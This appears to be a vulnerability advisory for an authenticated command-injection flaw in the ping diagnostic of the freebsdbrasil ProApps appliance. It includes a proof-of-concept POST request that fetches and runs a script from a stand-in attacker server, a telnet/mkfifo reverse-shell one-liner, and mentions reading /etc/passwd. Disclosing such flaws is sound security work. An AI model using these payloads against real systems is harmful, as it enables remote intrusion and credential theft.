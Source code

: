 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Remote Code Execution

## Description Vulnerability:
The vulnerability occurs because a user can inject system commands through the application using the ping functionality by adding a sequence command operator in Unix environments, such as (;, &&, or |).
To exploit the vulnerability it's necessary to be authenticated. The user must belong to a permission group called 'Status' and have 'Modified' Permission.
It is also important to mention that successful exploitation requires bypassing input sanitization. The application validates user input only on the front end, making it necessary to send the request through a network proxy, for example. In this way the limitations imposed by the application to be bypassed."

## Exploitation:
After authentication, it will be necessary to access a page called `sta_rede.diagnostico_ping` (http(s)://vulnerablepage.index.php?page=sta_rede.diagnostico_ping&task=view).
This page provides a function to perform an ICMP request to an arbitrary host. To learn more about the ping utility and the ICMP protocol (Request and Reply), please refer to the RFC mentioned in the references section.

The application sends a POST request with the parameters host, testar_pacote, and ttl, where `host` is the target of the ping, `testar_pacote` specifies the number of ICMP requests to send, and `TTL` is time to Live (TTL) for the packets. Upon send the request the application executes the following command on the Unix system: `ping -c $testar_pacote $host`.

This is where an attack vector is noticed. A user can exploit the vulnerability by sending a malicious POST request through a network proxy to bypass input sanitization by appending one of the sequence command operators (;, &&, or |) to the host parameter, the web application will execute the ping command mentioned above, followed by an additional command. For example, this could include reading sensitive files like `/etc/passwd`, `/etc/master.passwd` or get a reverse shell or execute arbitrary commands.

## Reverse Shell POC:
HTTP POST Request to `sta_rede.diagnostico_ping`:
`page=sta_rede.diagnostico_ping&host=x.x.x.x;curl -O http://attackserver/maliciousfile.sh; chmod +x maliciousfile.sh; ./maliciousfile.sh&testar_pacote=1&ttl=64`

### Maicious file content:
TF=$(mktemp -u);mkfifo $TF && telnet $attacker.ip $attacker.port 0<$TF | sh 1>$TF

By listening on the specified port with Netcat, a reverse shell is successfully opened.

## Impact Vulnerability:
RCE (Remote Code Execution) vulnerabilities allow an attacker to execute arbitrary code on a remote device, it can lead in a Full System Compromise, Data Breach, Lateral Movement, Malware Deployment and Reputational and Financial Damage.

### References:
- https://www.rfc-editor.org/rfc/rfc777
- https://www.checkpoint.com/cyber-hub/cyber-security/what-is-remote-code-execution-rce/
